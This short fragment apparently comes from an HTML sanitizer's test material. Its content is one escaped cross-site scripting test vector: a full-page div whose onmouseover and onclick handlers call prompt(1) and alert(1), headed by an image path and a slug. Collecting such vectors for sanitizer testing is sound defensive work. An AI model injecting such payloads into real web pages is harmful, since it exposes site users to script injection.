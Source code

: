 -div-style--position-absolute-top-0-left-0-width-100--height-100---onmouseover--prompt-1---onclick--
====================================================================================================

&lt;div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)" onclick="alert(1)">x&lt;/button>

